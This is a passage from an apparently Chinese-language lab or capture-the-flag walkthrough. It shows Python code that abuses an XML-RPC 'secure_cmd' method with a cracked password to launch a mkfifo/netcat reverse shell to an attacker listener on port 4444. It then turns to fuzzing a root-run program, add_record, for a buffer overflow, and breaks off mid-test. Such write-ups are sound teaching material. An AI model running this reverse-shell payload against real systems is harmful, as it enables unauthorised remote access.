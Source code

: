既然得到了密码，就可以在命令这个参数中传递一个反弹shell，加上爆破的密码，就能够成功得到shell

测试代码3：

```plain
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://192.168.56.104:8000") as proxy:
    proxy.secure_cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4444 >/tmp/f",6238)
```

kali开启对4444端口的监听，获得shell，用户为socnet

[![](assets/1699406763-1ac35eba6d88cd5b1e248660420c8011.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104213-41ddaae8-7d17-1.png)

目录下存在一个拥有root权限执行的程序add\_record

[![](assets/1699406763-74d43c824038b5b24ff8e6ae232f5191.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104231-4c691966-7d17-1.png)

执行该程序，存在5个输入，开启gdb调试，依次测试每个输入的位置是否存在溢出

对第一个输入进行测试，结果如下，程序运行终止：
